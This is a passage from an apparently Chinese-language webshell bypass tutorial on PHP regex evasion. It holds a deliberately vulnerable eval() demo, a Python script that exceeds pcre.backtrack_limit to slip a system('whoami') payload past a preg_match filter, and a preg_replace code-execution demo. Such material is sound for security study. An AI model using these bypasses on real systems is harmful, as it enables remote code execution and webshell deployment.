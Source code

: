 #### 8.5.3 回溯绕过

PHP正则利用的是NFA（非确定性有限自动机），想了解这个的可以百度找相关文章

- 遇到 `.*` 或者 `.+` ==> 直接匹配字符串末尾，然后一个个回溯，与之后的模式比较
- 遇到 `.*?` 或者 `.+?` ==> 非贪婪模式，在匹配到符合的字符串就停止 ==> 由下一个模式匹配 ==> 下一个模式不符合，回溯 ==> 再由 `.*?` 匹配直到下一个模式符合

```php
if (isset($_POST['f'])) {
    $f = $_POST['f'];
    if (preg_match('/<\?.*[(`;?>].*/is', $f)) {
        die('发现敏感字符串');
    }
    if (stripos($f, 'system(') == False) {
        die('不允许system');
    }
    eval($_POST['f']);
    echo '恭喜你成功绕过';
}
```

注：PHP为了防止正则表达式的拒绝服务攻击（reDOS），给 `pcre` 设定了一个回溯次数上限 `pcre.backtrack_limit`，可以通过以下代码查看当前环境下的上限：

```php
var_dump(ini_get('pcre.backtrack_limit'));
```

回溯次数上限默认是100万，如果回溯次数超过了100万，`preg_match` 返回的便不再是0或1，而是 `false`

可以写一个Python脚本来使回溯次数超出 `pcre.backtrack_limit` 限制从而绕过WAF：

```python
import requests

url = 'http://***.***.***/WebShell-Bypass-Guide/test.php'
data = {
    'f': 'system(\'whoami\');//'+'Aabyss'*166667
}
reponse = requests.post(url, data=data)
print(reponse.text)
```

### 8.6 `preg_replace`函数绕过

`preg_replace` 是一个PHP中的函数，主要用于对某个字符串，执行符合自定义正则表达式的搜索和替换，主要格式如下：

```php
preg_replace(正则表达式,主字符串);  //搜索符合正则表达式的内容
preg_replace(正则表达式,替换字符串,主字符串);  //替换符合正则表达式的内容
```

但这个函数可以被拿来恶意利用，产生PHP代码执行从而RCE：

```php
if (isset($_GET['a'])) {
    echo "这是一个Demo";
    echo preg_replace($_GET['a'],$_GET['b'],$_GET['c']);
} else {
    die("做不出来也没关系啦");
}
```
